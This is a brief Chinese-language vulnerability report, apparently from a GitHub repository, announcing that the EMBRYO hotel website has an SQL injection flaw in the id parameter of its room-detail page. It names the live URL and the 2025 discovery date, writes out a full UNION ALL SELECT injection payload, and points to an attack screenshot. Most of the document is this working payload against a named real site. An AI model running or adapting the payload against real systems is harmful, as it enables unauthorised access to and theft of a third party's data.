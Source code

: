 #EMBRYO酒店网站存在SQL注入漏洞| 
漏洞出现:http://www.embryohotel.com/room-detail.php?id=1 |
漏洞发现时间:2025年9月22日 |
Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:![attack](img/IMG_1.png)
